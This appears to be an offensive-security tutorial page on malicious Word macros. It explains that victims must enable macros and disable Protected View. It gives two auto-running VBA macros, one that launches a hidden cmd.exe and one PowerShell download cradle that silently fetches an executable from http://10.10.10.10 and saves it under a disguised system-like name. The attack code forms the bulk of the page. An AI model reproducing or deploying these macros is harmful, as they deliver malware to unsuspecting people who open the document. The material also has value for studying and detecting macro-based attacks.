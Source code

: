 # Word

In order for any of the code below to execute, the user has to enable Macros and disable Protected View after opening the malicious document. This needs to be done for any new document that is opened. In addition, this will only work in Macro-Enabled formats such as .doc (Word 97-2003 Document) or .docm, whereas newer formats such as .docx will not store macros.

## VBA Application Launcher

We can launch applications outside of VBA with the "Shell" function. The function takes two arguments, first, the application to launch, and second, the "WindowStyle" of the launched application. We can use the "vbHide" or "0" value to launch a hidden application. Note, the application may not open in a window, however, it is visible as a child process with any process viewer/explorer utility such as procexp/64 from sysinternals.

```vba
Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub

Sub MyMacro()
    Dim str As String
    str = "cmd.exe"
    Shell str, vbHide
End Sub
```

## VBA PowerShell Download Cradle

The code below will run the PowerShell command in a hidden PowerShell window, download the file and save it without any prompts to the user.

If an output path isn't specified, PowerShell will attempt to save the downloaded file in the same location as the Word document.

```vba
Sub Document_Open()
    mymacro
End Sub

Sub AutoOpen()
    mymacro
End Sub

Sub mymacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.10/winout64.exe', 'winsysx64.exe')"
    Shell str, 0
End Sub
```





